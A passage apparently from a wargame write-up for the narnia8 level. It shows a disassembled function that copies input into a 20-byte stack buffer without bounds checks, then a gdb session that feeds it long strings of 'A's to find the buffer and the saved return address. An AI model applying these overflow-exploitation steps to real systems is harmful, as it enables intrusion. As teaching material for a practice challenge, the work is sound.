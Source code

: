    0x08048433 <+6>:	mov    0x8(%ebp),%eax
   0x08048436 <+9>:	mov    %eax,-0xc(%ebp)
   0x08048439 <+12>:	movl   $0x14,0x8(%esp)
   0x08048441 <+20>:	movl   $0x0,0x4(%esp)
   0x08048449 <+28>:	lea    -0x20(%ebp),%eax
   0x0804844c <+31>:	mov    %eax,(%esp)
   0x0804844f <+34>:	call   0x8048320 <memset@plt>
   0x08048454 <+39>:	movl   $0x0,0x80497b8
   0x0804845e <+49>:	jmp    0x8048486 <func+89>
   0x08048460 <+51>:	mov    0x80497b8,%eax
   0x08048465 <+56>:	mov    0x80497b8,%edx
   0x0804846b <+62>:	mov    %edx,%ecx
   0x0804846d <+64>:	mov    -0xc(%ebp),%edx
   0x08048470 <+67>:	add    %ecx,%edx
   0x08048472 <+69>:	movzbl (%edx),%edx
   0x08048475 <+72>:	mov    %dl,-0x20(%ebp,%eax,1)
   0x08048479 <+76>:	mov    0x80497b8,%eax
   0x0804847e <+81>:	add    $0x1,%eax
   0x08048481 <+84>:	mov    %eax,0x80497b8
   0x08048486 <+89>:	mov    0x80497b8,%eax
   0x0804848b <+94>:	mov    %eax,%edx
   0x0804848d <+96>:	mov    -0xc(%ebp),%eax
   0x08048490 <+99>:	add    %edx,%eax
   0x08048492 <+101>:	movzbl (%eax),%eax
   0x08048495 <+104>:	test   %al,%al
   0x08048497 <+106>:	jne    0x8048460 <func+51>
   0x08048499 <+108>:	lea    -0x20(%ebp),%eax
   0x0804849c <+111>:	mov    %eax,0x4(%esp)
   0x080484a0 <+115>:	movl   $0x8048580,(%esp)
   0x080484a7 <+122>:	call   0x80482f0 <printf@plt>
   0x080484ac <+127>:	leave  
   0x080484ad <+128>:	ret    
End of assembler dump.
>```
>
> Let's just stop right before our data is printed and try to run it again.
>
>```
(gdb) break *0x080484a7
Breakpoint 1 at 0x80484a7
(gdb) run $(python -c 'print "A"*20')
Starting program: /root/narnia8 $(python -c 'print "A"*20')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7766000
>
Breakpoint 1, 0x080484a7 in func ()
(gdb) x/20x $esp
0xff883850:	0x08048580	0xff883868	0x00000014	0xf75b21e3
0xff883860:	0x00000000	0x00ca0000	0x41414141	0x41414141
0xff883870:	0x41414141	0x41414141	0x00414141	0xff884640
0xff883880:	0x00000002	0xff883944	0xff8838a8	0x080484cd
0xff883890:	0xff884640	0xf7771000	0x080484fb	0xf7727000
>```
>
> Good. We can see our ```A``` and even the return ```0x080484cd``` at ```0xff88387c```.  Now we can check and see what the difference is with a larger input.
>
>```
(gdb) x/20x $esp
0xffde9120:	0x08048580	0xffde9138	0x00000014	0xf75881e3
0xffde9130:	0x00000000	0x00ca0000	0x41414141	0x41414141
0xffde9140:	0x41414141	0x41414141	0x41414141	0xffde4741
0xffde9150:	0x00000002	0xffde9214	0xffde9178	0x080484cd
0xffde9160:	0xffde962b	0xf7747000	0x080484fb	0xf76fd000
>```